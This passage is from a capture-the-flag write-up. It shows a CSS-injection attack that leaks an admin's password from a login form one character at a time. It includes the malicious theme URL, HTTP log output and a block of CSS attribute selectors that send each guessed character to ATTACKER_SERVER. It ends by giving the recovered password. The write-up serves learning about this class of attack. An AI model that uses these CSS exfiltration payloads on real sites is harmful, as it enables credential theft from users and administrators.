 
Then send the admin our CSS URL.


```
https://fancy-login-form.ctf.zone/?theme=https://ATTACKER_SERVER/css/ocean
```


In our HTTP log, we'll get the first character of the password ("F")!


```bash
HTTP Requests
-------------
21:06:37.376 BST GET /F                         404 File not found
21:06:36.748 BST GET /css/ocean.css             200 OK
```


We just need to repeat this for each character. You could automate this into a nice script but I went for the manual approach (was super slow, don't recommend lol); use find/replace and replace `value^=` with `value^=F`. Repeat this until we get it all.

Note: I realised that the password has special chars, so after finding `F0x13foXtrOT`, I added some more elements to the CSS.


```css
input[name=password][value^=F0x13foXtrOT\!] { background-image: url('https://ATTACKER_SERVER/!'); }
input[name=password][value^=F0x13foXtrOT\@] { background-image: url('https://ATTACKER_SERVER/@'); }
input[name=password][value^=F0x13foXtrOT\#] { background-image: url('https://ATTACKER_SERVER/#'); }
input[name=password][value^=F0x13foXtrOT\$] { background-image: url('https://ATTACKER_SERVER/$'); }
input[name=password][value^=F0x13foXtrOT\%] { background-image: url('https://ATTACKER_SERVER/%'); }
input[name=password][value^=F0x13foXtrOT\^] { background-image: url('https://ATTACKER_SERVER/^'); }
input[name=password][value^=F0x13foXtrOT\&] { background-image: url('https://ATTACKER_SERVER/&'); }
input[name=password][value^=F0x13foXtrOT\*] { background-image: url('https://ATTACKER_SERVER/*'); }
input[name=password][value^=F0x13foXtrOT\(] { background-image: url('https://ATTACKER_SERVER/('); }
input[name=password][value^=F0x13foXtrOT\)] { background-image: url('https://ATTACKER_SERVER/)'); }
input[name=password][value^=F0x13foXtrOT\_] { background-image: url('https://ATTACKER_SERVER/_'); }
input[name=password][value^=F0x13foXtrOT\-] { background-image: url('https://ATTACKER_SERVER/-'); }
input[name=password][value^=F0x13foXtrOT\+] { background-image: url('https://ATTACKER_SERVER/+'); }
input[name=password][value^=F0x13foXtrOT\~] { background-image: url('https://ATTACKER_SERVER/~'); }
input[name=password][value^=F0x13foXtrOT\[ ] { background-image: url('https://ATTACKER_SERVER/['); }
input[name=password][value^=F0x13foXtrOT\\] { background-image: url('https://ATTACKER_SERVER/]'); }
input[name=password][value^=F0x13foXtrOT\|] { background-image: url('https://ATTACKER_SERVER/|'); }
input[name=password][value^=F0x13foXtrOT\;] { background-image: url('https://ATTACKER_SERVER/;'); }
input[name=password][value^=F0x13foXtrOT\:'"] { background-image: url('https://ATTACKER_SERVER/:\'"'); }
input[name=password][value^=F0x13foXtrOT\,] { background-image: url('https://ATTACKER_SERVER/,'); }
input[name=password][value^=F0x13foXtrOT\.] { background-image: url('https://ATTACKER_SERVER/.'); }
input[name=password][value^=F0x13foXtrOT\/] { background-image: url('https://ATTACKER_SERVER//'); }
```


The full password is `F0x13foXtrOT&Elas7icBe4n5`, we can login with:

